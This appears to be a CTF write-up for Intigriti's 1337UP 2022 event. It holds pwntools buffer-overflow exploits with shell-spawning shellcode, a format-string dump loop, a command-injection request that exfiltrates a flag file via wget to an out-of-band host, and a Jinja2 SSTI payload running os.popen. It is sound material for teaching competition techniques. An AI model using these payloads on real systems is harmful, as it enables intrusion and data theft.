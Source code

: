 ```yaml
---
title: CTF Writeup - 1337UP CTF by Intigriti
author: 6b6f6c6a61
date: 2022-03-15
category: CTF
layout: post
---
```


# 1337UP CTF Writeup 
This CTF was hosted by [Intigriti](https://www.intigriti.com/) before a live conference.

## Easy Register

This challenge was a basic stack buffer overflow with a stack leak. We used the leak to overwrite saved rip with the address of our shellcode.

```
#!/usr/bin/env python
# coding: utf-8
import sys
import time

def main(args):
    p = None

    # toggle to remote with ./pwn.py remote
    if len(args) == 2 and args[1] == "remote":
        p = remote("remote-server-url", 1234)
    else:
        p = process("./easy_register")

    # Try
    # p.recvlines(1), p.recv(10), p.readline()
    test = p.recvlines(7)
    overall_length = 88
    shellcode = b"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05"
    leak = p64(int(test[-1].split(b"listing at ")[1].split(b".")[0], 16), endian="little")
    exploit = b"\x90" * (overall_length - len(shellcode) -20) + shellcode + b"\x90" * 20 + leak
    print(len(exploit))
    p.recvuntil(b"Hacker name >")
    p.sendline(exploit)
    # p.write('data'), p.write('data with newline')
    p.interactive()
    # Note that if your program never ends, you will never see any output
    print(p.recvall())
    sys.exit(0)

if __name__ == "__main__":
        main(sys.argv)
```

## Search Engine Redacted

This was a pwn challenge. There was a format string vulnerability in the search function, when the search term was not found. Our solution here is not really clean. We used a short python script to generate format strings, which read bytes from memory at a certain offset. We then pasted them into the search and found the flag in memory.

```
from os import *

for i in range(0,100,2):
    test = ""
    for j in range(2):
         test += "%" + str(i+j) + "$016lx"
         #test += "%" + str(i+j) + "$c"
    print("input:" + test)
    system("echo '" + test + "'| ./search_engine_redacted")
```

`1337UP{Th3s3_f0rm4ts_ar3_wh4ck!}`

## Cake
This was a pwn challenge. The executable has no protections enabled. We control the least significant byte of the `saved rbp` pointer in the `eat` function. The buffer, that we overwrite for this is 256 bytes long. Byte 257 overwrites the least significant byte of `saved rbp`. In our exploit we overwrite thies byte to decrease the value of `saved rbp`. This allows us to control the `saved rip`, when the next function (`menu`) returns. At this point we use a `jmp rsp` gadget to jump to a relative jump, which then takes us to the beginning of our shellcode, which we place at the beginning of our buffer.

```
#!/usr/bin/env python
# coding: utf-8
import sys
import time

def main(args):
    p = None

    # toggle to remote with ./pwn.py remote
    if len(args) == 2 and args[1] == "remote":
        p = remote("cake.ctf.intigriti.io", 9999)
    else:
        p = process("./cake")
        #p = gdb.debug("./cake", gdbscript='break eat')

    
    binary = ELF('./cake')

    # Choose right path, to get to the vulnerable read call
    p.recvuntil(b">")
    p.sendline(b"1")
    
    # Shellcode for dropping a shell
    shellcode = b"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05"
    
    # jmp rsp gadget
    jmp_gadget = 0x0000000000400dbb
    
    exploit = b"\x90" * (32 - len(shellcode)) + shellcode
    # Generate jmp rsp + relative jmp with the right offset
    for i in range(32,256,16):
        print( "jmp $-0x"+ '{:02X}'.format(i +8))
        relative_jmp = asm("jmp $-0x"+ '{:02X}'.format(i +8))
        exploit += p64(jmp_gadget) + relative_jmp + b"\x90" * (8-len(relative_jmp)) 
    # Overwriting the least significant byte.
    exploit += b"\x08"
    print("[+] exploit:")
    print(exploit)

    print(len(exploit))
    # Receive until read call and send of manipulated buffer
    p.recvuntil(b"How many bites would you like? (1, 2, or 3):")
    p.send(exploit)
    
    # Hopefully drop shell here
    p.interactive()
    
    # Note that if your program never ends, you will never see any output
    print(p.recvall())
    sys.exit(0)

if __name__ == "__main__":
        main(sys.argv)
```

`1337UP{Wow_that_was_Quite_the_journey!}`

## Traveler

There was only one point in the application, that provided some interaction. So we played around with it and got an error:
```
<center>An error occurred whilst executing: bash check.sh Couple$(whoami)</center>
```

Seemed like command injection, but I got no output. So we started an `interactsh-client`:
```
~/go/bin/interactsh-client -v -o interactsh-logs.txt
```

We then with some trial an error crafted this request, which uses `wget` to post command output to the server. I found the flag in the root directory and leaked it this way:
```
POST /package-details.php HTTP/2
Host: traveller.ctf.intigriti.io
[...]

pack=Couple$(wget+http%3a//$(echo+test2).c8m9dmgkek6ds5otf660cesjpzyyyyyyn.oast.online/lsout+--post-data+"$(cat+/flag.txt)")&submit=Submit
```

On the `interactsh-client` we got:
```
------------
HTTP Request
------------
`
POST /lsout HTTP/1.1
Host: test2.c8m9dmgkek6ds5otf660cesjpzyyyyyyn.oast.online
Accept: */*
Accept-Encoding: identity
Connection: Keep-Alive
Content-Length: 24
Content-Type: application/x-www-form-urlencoded
User-Agent: Wget/1.20.3 (linux-gnu)

1337UP{C0MM4nd_Inj3ti0n}
```


## DeadTube

This is basically just one endpoint, that is obviously issuing requests, which means SSRF. We had source code access, that told us that the flag is given when issuing a request to `/flag` from localhost. 

To solve it we used an URL Shortener to redirect the connection to `https://127.0.01:8080/flag`.

`1337UP{SSRF_AINT_GOT_NOTHING_ON_M3}`


## Quiz

Quiz, that allows us to earn points and gives a flag if we reach a 100 points (which is not possible). This is a simple race condition. We sent the request triggering a point increase to `turbo intruder` and used the `race.py` script to issue it 30 times. We were then able to buy the flag:

`1337UP{this_is_a_secret_flag}`

## 1Truth2Lies
This basically allows Flask SSTI on one endpoint, while the other two are not vulnerable. We need to URL encode the path, as it is quite strange. For this we used `cyberchef`. Then there is a basic filter, but one of the payloads from `PayloadAllTheThings` was not filtered. 

We issued the following request to retrieve the flag:
```
GET /%0A%20%E2%96%84%E2%96%88%20%20%20%20%E2%96%84%E2%96%84%E2%96%84%E2%96%84%E2%96%88%E2%96%88%E2%96%88%E2%96%84%E2%96%84%E2%96%84%E2%96%84%20%20%20%20%20%20%20%20%20%E2%96%84%E2%96%88%20%20%20%20%E2%96%88%E2%96%84%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%84%20%20%20%E2%96%84%E2%96%88%20%20%20%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%E2%96%84%E2%96%84%E2%96%84%E2%96%84%20%20%20%20%20%20%E2%96%84%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%84%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%84%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%20%E2%96%80%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%84%20%20%20%E2%96%84%E2%96%88%20%20%20%20%20%20%20%20%20%20%E2%96%84%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%20%0A%E2%96%88%E2%96%88%E2%96%88%20%20%E2%96%84%E2%96%88%E2%96%88%E2%96%80%E2%96%80%E2%96%80%E2%96%88%E2%96%88%E2%96%88%E2%96%80%E2%96%80%E2%96%80%E2%96%88%E2%96%88%E2%96%84%20%20%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%E2%96%80%E2%96%80%E2%96%80%E2%96%88%E2%96%88%E2%96%84%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%20%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%0A%E2%96%88%E2%96%88%E2%96%88%E2%96%8C%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%80%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%20%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%80%20%20%0A%E2%96%88%E2%96%88%E2%96%88%E2%96%8C%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%E2%96%84%E2%96%88%E2%96%88%E2%96%88%E2%96%84%E2%96%84%E2%96%84%20%20%20%20%20%20%E2%96%84%E2%96%88%E2%96%88%E2%96%88%E2%96%84%E2%96%84%E2%96%84%E2%96%84%E2%96%88%E2%96%88%E2%96%80%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%E2%96%84%E2%96%88%E2%96%88%E2%96%88%E2%96%84%E2%96%84%E2%96%84%E2%96%88%E2%96%88%E2%96%80%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%20%20%20%20%E2%96%84%E2%96%88%E2%96%88%E2%96%88%E2%96%84%E2%96%84%E2%96%84%20%20%20%20%20%0A%E2%96%88%E2%96%88%E2%96%88%E2%96%8C%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%E2%96%80%E2%96%80%E2%96%88%E2%96%88%E2%96%88%E2%96%80%E2%96%80%E2%96%80%20%20%20%20%20%E2%96%80%E2%96%80%E2%96%88%E2%96%88%E2%96%88%E2%96%80%E2%96%80%E2%96%80%E2%96%80%E2%96%80%20%20%20%E2%96%80%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%20%E2%96%80%E2%96%80%E2%96%88%E2%96%88%E2%96%88%E2%96%80%E2%96%80%E2%96%80%E2%96%88%E2%96%88%E2%96%84%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%20%20%20%E2%96%80%E2%96%80%E2%96%88%E2%96%88%E2%96%88%E2%96%80%E2%96%80%E2%96%80%20%20%20%20%20%0A%E2%96%88%E2%96%88%E2%96%88%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%84%20%20%E2%96%80%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%84%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%20%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%84%20%20%0A%E2%96%88%E2%96%88%E2%96%88%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%E2%96%88%E2%96%88%E2%96%88%E2%96%8C%20%20%20%20%E2%96%84%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%E2%96%88%E2%96%88%E2%96%88%E2%96%8C%20%20%20%20%E2%96%84%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%0A%E2%96%88%E2%96%80%20%20%20%20%E2%96%80%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%80%20%20%20%20%20%20%20%20%E2%96%80%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%80%20%20%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%80%20%20%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%84%E2%96%84%E2%96%88%E2%96%88%20%20%E2%96%80%E2%96%88%20%20%20%E2%96%88%E2%96%80%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%80%20%20%E2%96%84%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%80%20%20%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%84%E2%96%84%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%20%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%E2%96%80%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%E2%96%80?input={{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat+flag*')|attr('read')()}} HTTP/2
[...]
```

In the response we got the flag:
```
HTTP/2 200 OK
Date: Sat, 12 Mar 2022 14:55:10 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 67
Set-Cookie: INGRESSCOOKIE=1647096911.236.13402.145793|dc1d9196c6bf1d67eb64d1980e38e24f; Path=/; Secure; HttpOnly

Your input: flag{1ea5n_h0w_vu1n_h1ppen_and_wh1t_l1ne_m1ke_vu1n!!!}
```


